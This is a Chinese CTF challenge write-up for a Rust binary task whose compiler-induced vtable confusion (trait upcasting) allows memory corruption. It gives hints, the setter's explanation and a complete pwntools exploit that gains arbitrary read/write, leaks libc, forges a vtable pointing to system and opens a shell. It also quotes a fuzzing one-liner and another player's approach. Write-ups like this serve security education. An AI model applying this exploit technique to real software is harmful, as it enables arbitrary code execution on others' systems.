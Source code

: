 # [Binary] 完美的代码

- 命题人：lrh2000
- 发现：400 分
- 解密：300 分

## 题目描述

<p>小E为某开源软件贡献代码十年之久，终于成为了该软件的核心开发者。可是，小E并不想为爱发电，他决定向该软件中注入后门，以便盗取神秘货币发大财。</p>
<p>过去了这么多年，小E后知后觉地发现这款软件的核心代码都已经用Rust重写了，想要同往常一样在C/C++代码中假装无意插入一个内存安全漏洞的好日子一去不复返。小E意识到通过常规手段悄悄插入一个足够隐秘的后门似乎并没有那么容易。于是，他编写了一段 <strong>完美的代码</strong>，这段代码顺利通过代码评审并合入到了主干。</p>
<p>可是，小E还是顺利完成了他的邪恶计划，问题出在哪里呢？完美的代码意味着 <strong>完美的程序</strong> 吗？</p>
<p><strong>说明：</strong></p>
<ul>
<li>让程序发生段错误可以获得 Flag 1</li>
<li>拿到 shell 或执行命令 <code>cat ./flag2.txt</code> 可以获得 Flag 2</li>
</ul>
<div class="well">
<p><strong>第二阶段提示：</strong></p>
<ul>
<li>本题的技术原理可参考 <a target="_blank" rel="noopener noreferrer" href="https://github.com/rust-lang/rust/issues/131813">https://github.com/rust-lang/rust/issues/131813</a></li>
</ul>
<p>除此之外，还有如下两个和 Flag 直接相关的提示：</p>
<ul>
<li>Flag 1：如果不想看技术原理，或许可以直接手玩一下？</li>
<li>Flag 2：调试一下 Flag 1 的崩溃，或许可以想办法做到任意内存读写？在这之后，堆上的虚表指针是不是有一些神秘作用呢？</li>
</ul>
</div>

**[【附件：下载题目源码（binary-saferustplus.zip）】](attachment/binary-saferustplus.zip)**

**【终端交互：连接到题目】**

## 预期解法

这题的出题思路是之前正常开发的时候突然蹦出来个段错误，十分疑惑，最后调试了下发现竟然是 Rust 编译器的问题。~~感觉可以用来注入后门，~~ 那不如先出道题吧。

### Flag 1：发现

怎么发现哪里有问题呢？首先题面暗示问题不在源代码里，但在编译之后的二进制文件里。预期解法：
 - 这题是个菜单题，但内部并没有维护复杂状态，其实本质不同的输入也就只有十几种或者最多几十种，手动全部尝试一遍就能发现异常了（如果输入离谱一点基本就段错误了）。懒得手动尝试也可以写个程序自动尝试，或者直接 fuzzing 。
 - 如果注意力惊人，也可以根据源代码猜一下问题在哪，比如定义了一堆 trait 并用了 `trait_upcasting` ，那么可能这块有问题概率比较大，然后去逆向二进制中对应模块。这个确实比较难，实际好像也没有选手是这么做出来的。

### Flag 2：解密

分析一下 Flag 1 中的段错误，可以看出是虚表错位，也就是调用 `put` 实际调用的是 `put_unchecked`，那么也就可以任意写入了。

正好栈上有个 `is_admin` 的布尔值，把它置为真，就可以任意读写内存，也可以泄漏 libc 里的地址。

不过这题 `main` 函数不会返回，所以不太好覆盖栈上的返回地址，但是堆上的虚表可以随便改。所以只要构造一个假的虚表，把里面的函数指针填成 `system`，就可以拿到 shell 或者执行 `cat ./flag2.txt` 了。

[利用程序：](sol/exp.py)

```py
from pwn import *

p = remote('127.0.0.1', 8080)

_created_counter = 0

def create():
    global _created_counter
    _created_counter += 1

    # Create
    p.sendlineafter(b'Enter the choice:\n', b'1')
    if _created_counter == 1:
        # Local
        p.sendlineafter(b'Enter the choice:\n', b'3')
    else:
        # Boxed
        p.sendlineafter(b'Enter the choice:\n', b'1')
    # Size
    p.sendlineafter(b'Enter the size:\n', b'1024')
    # Read/write
    p.sendlineafter(b'Enter the choice:\n', b'3')

create()
create()

def write8(off, val, sl=0):
    # Write
    p.sendlineafter(b'Enter the choice:\n', b'3')
    # Slot
    p.sendlineafter(b'Enter the slot:\n', str(sl).encode())
    # Index
    p.sendlineafter(b'Enter the index:\n', str(off if off >= 0 else off + 2**64).encode())
    # Value
    p.sendlineafter(b'Enter the value:\n', str(val).encode())
    # Unwrap
    p.sendlineafter(b'Enter the choice:\n', b'1')

def read8(off):
    # Read
    p.sendlineafter(b'Enter the choice:\n', b'2')
    # Slot
    p.sendlineafter(b'Enter the slot:\n', b'0')
    # Index
    p.sendlineafter(b'Enter the index:\n', str(off if off >= 0 else off + 2**64).encode())
    # Unchecked
    p.sendlineafter(b'Enter the choice:\n', b'3')
    # Result
    p.recvuntil(b'Result: ')
    return int(p.recvline().decode().strip())

def write64(off, val):
    for i in range(0, 8):
        write8(off + i, (val >> i * 8) & 0xff)

def read64(off):
    res = 0
    for i in reversed(range(0, 8)):
        res = (res << 8) | read8(off + i)
    return res

# is_admin: 0x98(%rsp)
# local_data: 0xa8(%rsp)

write8(-16, 1)

# (gdb) x/20a $rsp
# 0x7ffe65eecac0:	0x5aeb2a9d9810 <_ZN3run4main17hf2eb20adc216d115E>	0x724b6fe6024a <__libc_start_call_main+122>
# 0x7ffe65eecad0:	0x7ffe65eecbc0	0x5aeb2a9db520 <main>
# 0x7ffe65eecae0:	0x12a9c3040	0x7ffe65eecbd8
# 0x7ffe65eecaf0:	0x7ffe65eecbd8	0x920e9a292183a1ec
# 0x7ffe65eecb00:	0x0	0x7ffe65eecbe8
# 0x7ffe65eecb10:	0x5aeb2aa1dd28	0x724b7007b020 <_rtld_global>
# 0x7ffe65eecb20:	0x6df251f4b421a1ec	0x769845e52585a1ec
# 0x7ffe65eecb30:	0x0	0x0
# 0x7ffe65eecb40:	0x0	0x7ffe65eecbd8
# 0x7ffe65eecb50:	0x7ffe65eecbd8	0x9bae95e730d0200
#
# (gdb) disp/i $pc
# 1: x/i $pc
# => 0x5aeb2a9dbe73 <_ZN3run6traits6CanPut13put_unchecked17hee53d1baa5fbab4bE+3>:	movzbl (%rcx,%rsi,1),%eax
# (gdb) p/a $rcx
# $3 = 0x7ffe65eec528
#
# (gdb) p __libc_system
# $4 = {int (const char *)} 0x724b6fe85490 <__libc_system>

in_libc = read64(0x7ffe65eecac8 - 0x7ffe65eec528)
system = in_libc + 0x724b6fe85490 - 0x724b6fe6024a

stack = read64(0x7ffe65eecaf0 - 0x7ffe65eec528)
base = stack + 0x7ffe65eec528 - 0x7ffe65eecbd8

vec = read64(-32)
data = read64(vec - base + 32)
vptr = read64(vec - base + 40)

write64(data - base, u64(b'/bin/sh\x00'))
write64(vec - base + 40, vec + 48 - 0x38)
write64(vec - base + 48, system)

write8(0, 0, 1)

p.interactive()
```

### 优秀选手解法

 - 下面的脚本可以秒出 Flag 1，参见清华大学选手 [Vursc 的 writeup](../../players-writeup/1273) （确实是“完美的解法”）：
> 完美的解法（出结果用不了一秒钟）：
> ```
> while
>     grep -ao '[0123]' /dev/urandom | tee in | ./run >/dev/null 2>err;
>     grep -q assert err;
> do :; done
> ```
 - 其实不利用 `is_admin` 也不调用 `system` 同样能拿 Flag 2，参见清华大学选手 [tony 的 writeup](../../players-writeup/700)：
> 而利用这点修改了别的`BoxedData`的data指针后，也就能任意位置读取了。
> [ .. ]
> 总之我采取了另一个方法，利用的是调用的虚函数的返回值是会打印出来的这一点，首先执行`open64(./flag2.txt, 0)`，返回值`fd`会被打印到命令行（其实不打印的话也大概率可以猜是3）。然后再调用`read(fd, buf, ...)`，当然，第三个参数是没法控制的，因为override的虚函数只有前两个参数，只好听天由命希望这个值足够大就行。事实上，确实work了，最后读取`buf`的内容就是flag2了。
